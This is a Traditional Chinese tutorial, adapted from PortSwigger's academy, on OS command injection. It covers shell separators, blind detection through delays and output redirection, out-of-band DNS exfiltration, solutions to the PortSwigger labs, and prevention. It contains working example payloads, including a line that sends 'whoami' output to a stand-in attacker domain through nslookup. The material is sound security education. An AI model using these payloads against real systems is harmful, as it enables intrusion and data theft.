

# 指令注入（OS command injection）

By: 1PingSun

Ref: [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

---

在這個章節，將解釋什麼是指令注入（OS command injection），以及如何發現並利用弱點。也會列出針對不同作業系統的指令以及技術，並說明如何進行防禦。



圖片來源：[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## 什麼是指令注入？

指令注入英文 OS command injection 或稱為 shell injectino。它允許攻擊者操作應用伺服器作業系統的指令，並且通常會完全的破壞應用和資料。通常攻擊者可以透過指令注入破壞內部架構的其他部分，並利用信任關係攻擊內部其他系統。

<iframe width="560" height="315" src="https://www.youtube.com/embed/8PDDjCW5XWw?si=G7f2WXe_e0UourGK" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

## 注入作業系統指令

在這個範例中，一個購物應用允許使用者查看特定商店中是否有商品哭錯。此資訊可以透過以下 URL 存取：

```raw
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

為了提供這些資訊，應用必須查詢各種舊系統。由於一些歷史原因，該功能會調用 shell 指令，並將 `productID` 和 `storeID` 作為參數：

```bash
stockreport.pl 381 29
```

此指令將輸出特定商品的狀態，該資訊將回傳給使用者。

該應用不會針對指令注入進行防禦，因此攻擊者可以提交以下輸入來執行任意指令：

```bash
& echo aiwefwlguh &
```

如果在 `productID` 參數中提交此輸入，則應用會執行以下指令：

```bash
stockreport.pl & echo aiwefwlguh & 29
```

`echo` 指令會輸出提供的字串。這在測試某些類型的指令注入是有用的。`&` 字元是一個 shell 指令分隔符號。在這個範例中，他會導致一個接一個地執行三個單獨的指令。最後傳給使用者的輸出是：

```log
Error - productID was not provided
aiwefwlguh
29: command not found
```

這三行的輸出證明了：

* 原始 `stockreport.pl` 指令在沒有引數的情況被執行，並回傳錯誤訊息。
* 注入的 `echo` 指令被執行，且提供的字串有被輸出。
* 原始的參數 `29` 被當作指令執行，這導致錯誤。

在注入的指令後面加上指令分隔符號 `&` 很有用個，因為它可以將指令與注入點之後的任何內容分開。這減少了被阻止注入的指令執行的可能性。

::: tip **Lab: [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)**
1. 使用 Burp Suite 的 Intercept 並修改查詢庫存的請求。
2. 將 `storeID` 參數的值改成 `1|whoami`。
3. 確認回應包含當前使用者名稱即可完成此 Lab。
:::

### 有用的指令

在辨識指令輸入漏洞後，執行一些指令了解關於系統的資訊非常有用。以下是一個 Linux 和 Windows 平台的指令表：

| Purpose | Linux Command | Windows Command |
|---------|--------------|-----------------|
| Name of current user | `whoami` | `whoami` |
| Operating system | `uname -a` | `ver` |
| Network configuration | `ifconfig` | `ipconfig /all` |
| Network connections | `netstat -an` | `netstat -an` |
| Running processes | `ps -ef` | `tasklist` |

### 注入 OS 指令的方法

你可以使用很多種 shell 字元來進行指令注入攻擊。

許多字元被當作指令分隔符號，允許將多個指令連結在一起。以下指令分隔符號均適用於 Windows 和 Unix 系統：

* `&`
* `&&`
* `|`
* `||`

以下指令僅適用於 Unix 系統

* `;`
* 還行（`0x0a` 或 `\n`）

在 Unix 系統上，還可以使用反引號或美元字元，以在原始指令中注入指令：

* `` `injection command` ``
* `$(injection command)`

不同的 shell 字元造成的行為具有些許的不同，這些行為可能會改變它們在某些情況下是否可以正常運作。這會影響是否能夠檢索指令的輸出，或僅對盲目的利用有用。

有時，你控制的輸入顯示在原始指令的引號內。你需要在使用合適的 shell 字元前結束引號（使用 `"` 或 `'`），以注入新指令。

## 盲指令注入

許多指令注入的案例都是盲指令注入漏洞，這表示應用不會在 HTTP 回應中回傳指令的輸出。盲指令注入漏洞仍然可以被利用，只是需要不同的技術。

例如，假設一個網站允許使用者提交網站的回饋。使用者輸入電子郵件信箱以及回饋的訊息。接著，伺服器端會向網站管理員生成一封包含回饋的電子郵件。為此，它調用包含提交詳細資料的 `mail` 程式：

```bash
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`mail` 指令的輸出（如果有）不會在應用的回應中回傳，因此使用 `echo` payload 不會起作用。在這種情況下，可以使用其他技術來檢測和利用漏洞。

### 使用延遲時間檢測盲指令注入

可以使用注入指令來觸發時間延遲，就能透過應用回應的時間確認指令是否已被執行。為此，`ping` 指令是好方法，因為可以指定發送的 ICMP 封包數量。這將能夠控制指令執行所花費的時間：

```bash
& ping -c 10 127.0.0.1 &
```

這個指令會讓應用對其網卡執行 ping 10 秒鐘。

::: tip **Lab: [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)**
1. 使用 Burp Suite 的 Intercept 並修改查詢庫存的請求。
2. 將 `storeID` 參數的值改成 `email=x||ping+-c+10+127.0.0.1||`。
3. 確認回應時間大於 10 秒即可完成此 Lab。
:::

### 透過重新導向利用盲指令注入

你可以將輸出到想到 Web 根目錄中的檔案中，然後再使用瀏覽器存取該檔。例如，如果應用從檔案系統位置 `/var/www/static` 提供靜態資源，則可以提交以下輸出：

```bash
& whoami > /var/www/static/whoami.txt &
```

`>` 字元將 `whoami` 指令的輸出發送到指定檔案。接著，你可以使用瀏覽器存取 `https://vulnerable-website.com/whoami.txt` 來查看檔案，並看到注入的指令的輸出。

::: tip **Lab: [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)**
1. 使用 Burp Suite 的 Intercept 並修改查詢庫存的請求。
2. 將 `storeID` 參數的值改成 `email=x||whoami > /var/www/images/whoami.txt||`。
3. 接著存取找到存取照片的 API：`/image?filename=16.jpg`
4. 將 `filename` 參數的值改成 `whoami.txt` 即可查看注入的指令的輸出並完全此 Lab。
:::

### 透過界外應用程式安全測試（OAST）技術利用盲指令注入

你可以透過 OAST 技術，使用注入的指令觸發外部的網路交互。例如：

```bash
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 會使用 `nslookup` 指令對指定網址進行 DNS 查詢。攻擊者可以檢測是否真的有進行查詢，以確認指令是否已成功注入。

::: tip **Lab: [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)**
1. 只有專業版的 Burp Suite 可以做這題啦，我窮人www
:::

OAST 提供了一種簡單的方法將注入的指令輸出傳出去：

```bash
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

這會導致 DNS 查詢包含 `whoami` 指令輸出的網域名：

```raw
wwwuser.kgji2ohoyw.web-attacker.com
```

::: tip **Lab: [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)**
1. 還是一樣需要專業版 Burp Suite 啦，歡迎贊助～
:::

## 如何防範指令注入攻擊

防止指令最有效的方法就是絕對不要透過應用的程式碼中調用底層 OS 指令。在幾乎所有的情況下，都有其他的方式可以使用更安全的 API 執行所需的功能。

如果你仍然需要使用使用者提供的輸入調用 OS 指令，則必須執行強輸入驗證。有效的驗證包含：

* 根據允許的值進行白名單驗證
* 驗證輸入是否為數字
* 驗證輸入是否僅包含字母、數字字元，不包含其他語法或空格

且無嘗試透過轉譯 shell 字元來清理輸入。在實踐中，這太容易造成失誤，並被攻擊者繞過。
